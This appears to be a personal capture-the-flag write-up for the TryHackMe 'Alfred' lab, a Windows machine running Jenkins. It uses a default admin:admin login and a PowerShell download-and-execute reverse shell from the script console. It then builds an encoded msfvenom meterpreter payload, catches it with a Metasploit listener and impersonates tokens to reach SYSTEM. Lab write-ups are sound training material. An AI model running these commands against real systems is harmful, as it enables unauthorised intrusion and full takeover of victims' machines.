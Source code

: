 # Link

- https://tryhackme.com/room/alfred

# Info

## IP = $IP

## Creds

- alfred@wayneenterprises.com
- admin:admin (Jenkins login)

# Ports

## PortScanning
```bash
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

## 80

###  `gobuster`

## 8080

- login page

## script console used for reverse shell
- https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
- http://$IP:8080/job/project/
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://$IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $IP -Port 1337
```
# PrivEsc

- using `msfvenom` to create reverse shell file
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$IP LPORT=1234 -f exe -o shell-name.exe
``` 

- open listener in `msfconsole`
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST $IP
LHOST => $IP
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run
```

- open http server in python
```bash
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Alfred]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

- get file from target machine
```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$IP:8000/shell-name.exe','shell-name.exe')"
```

- run file from target machine
```powershell
Start-Process "shell-name.exe"
```

- checking permissions with `whoami /priv`, it's possible to check "SeDebugPrivilege" and "SeImpersonatePrivilege" privileges enabled, so...
```bash
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid # NT AUTHORITY\SYSTEM
```
- trade process
```bash
pgrep services.exe
migrate 668
```

- get root flag at **C:\Windows\System32\config**